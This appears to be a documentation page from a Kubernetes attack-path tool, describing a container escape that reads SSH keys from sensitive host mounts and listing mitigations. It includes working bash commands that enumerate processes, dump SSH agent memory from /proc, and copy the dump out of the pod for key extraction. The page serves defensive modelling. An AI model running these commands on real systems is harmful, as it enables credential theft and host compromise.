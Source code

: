 ```yaml
---
title: EXPLOIT_HOST_READ
---
```


<!--
id: EXPLOIT_HOST_READ
name: "Read file from sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_READ

| Source                                | Destination                 | MITRE                                                               |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is exposed to a container, even as readonly, it can enable an escape to the host. The only example currently modelled is exposing a host volume that contains SSH keys (and assumes that SSH is enabled on the node for SRE activities). In this scenario an attacker can steal the SSH keys from the mounted volume, then SSH directly into the node.

## Prerequisites

Execution within a container with a sensitive host path mounted as readonly.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). Specifically:

+ `/etc`, `/root`, `/home`, `/proc` for SSH key material. This enables accessing the node via SSH (which is typically enabled for management functionality)

## Exploitation

Consider the case of an exposed `/proc` mount. We can attempt to steal SSH keys directly from the process memory of the SSH agent. First identify the target process by dumping all process info via:

```bash
find /proc -maxdepth 2 -wholename '/proc/[0-9]*/status'  | xargs cat > process-list.txt
```

Once the target PID has been retrieved, dump the process memory by reading `/proc/${PID}/mem`:

```bash
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

then exfiltrate the memory dump to an attacker machine using `kubectl cp` (or any other mechanism):

```bash
kubectl cp ${NAMESPACE}/${PODNAME}:/mem.bin ./mem.bin
```

Finally extract any SSH keys offline from memory using the [ssh-grab](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py) python script.

### Monitoring

+ Monitor for access to sensitive host files (e.g SSH keys) originating from container processes

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostRead](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [Stealing SSH Keys From Memory](https://www.netspi.com/blog/technical/network-penetration-testing/stealing-unencrypted-ssh-agent-keys-from-memory/)
+ [Dump Linux Process Memory to File](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file)
